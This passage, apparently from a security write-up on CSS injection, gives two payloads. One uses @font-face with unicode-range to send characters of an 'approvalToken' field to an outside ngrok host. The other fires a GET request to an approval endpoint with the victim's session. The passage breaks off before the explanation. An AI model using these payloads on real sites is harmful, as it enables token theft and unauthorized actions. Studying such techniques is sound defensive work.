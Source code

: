 @font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:9');
	unicode-range:U+0039;
}
.form-group #approvalToken{
    font-size: 10px;
    display: inline;
    z-index: 10000;
    font-family:attack;
}

{% endhighlight %}

Not only to to steal sensitive information, but it can also be exploited to make HTTP requests using the victim's session or cookies. For example, if there's a GET URL, an attacker can use the following CSS code to make an HTTP GET request:

{% highlight css %}
@font-face {
    font-family: trigger;
    src: url('http://127.0.0.1:1337/approve/1/03456DFGHILOQSVWZcefgijlnopqsuvw');
    unicode-range:U+0043;
}

.form-group #approvalToken{
    font-size: 10px;
    font-family:trigger;
}
{% endhighlight %}

Here’s what happens in the background on the victim’s browser:
